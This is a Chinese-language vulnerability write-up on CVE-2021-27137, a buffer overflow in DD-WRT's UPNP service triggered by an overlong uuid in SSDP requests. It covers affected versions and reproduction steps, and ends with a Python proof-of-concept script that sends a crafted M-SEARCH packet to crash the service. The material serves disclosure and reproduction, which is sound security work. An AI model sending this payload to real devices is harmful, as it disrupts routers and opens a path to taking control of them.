


# DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

## 漏洞描述

默认情况下，DD-WRT中的UPNP处于禁用状态，并且仅在内部网络接口上侦听。

UPNP本质上是未经身份验证的UDP形式的协议–由于无法对协议强制执行身份验证，因此它既易于使用又具有不安全。

如果DD-WRT启用了UPNP服务，则坐在存在DD-WRT设备的LAN上的远程攻击者可以通过发送一个过长的`uuid`值来触发缓冲区溢出。

根据部署DD-WRT的平台的不同，可能存在缓解措施，也可能没有缓解措施，例如ASLR等，这使得可利用性取决于安装DD-WRT的平台。

## 漏洞影响

```
DD-WRT < 45723 版本
```

## 漏洞复现

通过查看源代码，`ssdp.c`可以很容易地发现有问题的代码：




用户提供的数据的未绑定副本被复制到缓冲区中，该缓冲区的大小限制为128个字节。

由于默认情况下未启用UPNP服务，因此重新创建漏洞的第一步是启用将自动启动该服务的服务



启动PoC脚本将触发upnp服务崩溃，这可以在启动以下python脚本几秒钟后看到


## 漏洞POC

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```